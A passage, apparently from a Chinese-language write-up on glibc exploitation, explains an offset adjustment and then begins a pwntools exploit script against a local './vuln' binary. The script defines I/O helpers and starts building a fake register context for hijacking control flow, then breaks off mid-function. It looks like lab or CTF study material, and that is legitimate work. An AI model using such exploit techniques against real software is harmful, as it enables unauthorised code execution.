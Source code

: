 注意到我们去掉了对offset 0x1C0值的设置，只要里面的值是0就没事。我们可以通过提前分析glibc来规避。

例如在我们实验环境中的glibc中，如果不做偏移，offset 0x1C0刚好在这里：

![](image-20231207155810000.png)

所以我们可以offset +8，从而让offset 0x1C0落在`0x219328`。



- 完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'


def lite_context(src: int, rsp=0, rbx=0, rbp=0, rsi=0, rdi=0, rcx=0, rdx=0,
                 rip=0xDEADBEEF) -> bytearray:
    b = flat({
        0x68: rdi,
        0x70: rsi,
        0x78: rbp,
        0x80: rbx,
        0x88: rdx,
        0x98: rcx,
        0xA0: rsp,
```